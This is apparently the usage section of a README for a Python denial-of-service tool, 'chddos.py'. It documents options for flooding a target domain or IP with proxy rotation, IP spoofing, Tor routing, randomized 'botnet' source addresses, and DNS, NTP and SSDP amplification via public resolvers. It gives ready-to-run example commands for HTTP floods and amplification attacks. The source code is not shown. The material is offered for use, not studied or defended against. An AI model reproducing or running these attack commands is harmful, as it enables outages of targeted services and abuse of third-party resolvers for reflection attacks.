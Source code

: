 ## Usage
Run `chddos.py` with the following command-line arguments:

```bash
python3 chddos.py -t <target> -p <ports> [options]
```

### Command-Line Options
| Option | Description | Example |
|--------|-------------|---------|
| `-t, --target` | Target IP/domain or file with targets (required) | `-t example.com` or `-t targets.txt` |
| `-p, --port` | Target ports (comma-separated, required) | `-p 80,443` |
| `--proxy-file` | Proxy list file (IP:Port) | `--proxy-file proxies.txt` |
| `--proxy-type` | Proxy type (http, socks4, socks5) | `--proxy-type socks5` |
| `-r, --agent-file` | Custom User-Agent list file | `--agent-file agents.txt` |
| `--add-agent` | Additional User-Agents (comma-separated) | `--add-agent "Mozilla/5.0,Opera/9.80"` |
| `--threads` | Number of threads (default: 100) | `--threads 200` |
| `--rpc` | Requests per connection (default: 10) | `--rpc 20` |
| `--duration` | Attack duration in seconds (default: 300) | `--duration 600` |
| `--spoof` | Enable IP spoofing (requires root) | `--spoof` |
| `--tor` | Use Tor network (requires root) | `--tor` |
| `--botnet` | Simulate botnet with randomized source IPs (requires root) | `--botnet` |
| `--dns-resolvers` | DNS resolvers for amplification | `--dns-resolvers "8.8.8.8:53,1.1.1.1:53"` |
| `--ntp-resolvers` | NTP resolvers for amplification | `--ntp-resolvers "pool.ntp.org:123"` |
| `--ssdp-resolvers` | SSDP resolvers for amplification | `--ssdp-resolvers "239.255.255.250:1900"` |

### Example Commands
- Basic HTTP attack:
  ```bash
  python3 chddos.py -t example.com -p 80,443
  ```
- Botnet simulation with proxies:
  ```bash
  sudo python3 chddos.py -t target.txt -p 80,443 --botnet --proxy-file proxies.txt --proxy-type socks5
  ```
- DNS amplification:
  ```bash
  sudo python3 chddos.py -t target.txt -p 53 --dns-resolvers "8.8.8.8:53,1.1.1.1:53"
  ```
- SSDP amplification:
  ```bash
  sudo python3 chddos.py -t target.txt -p 1900 --ssdp-resolvers "239.255.255.250:1900"
  ```
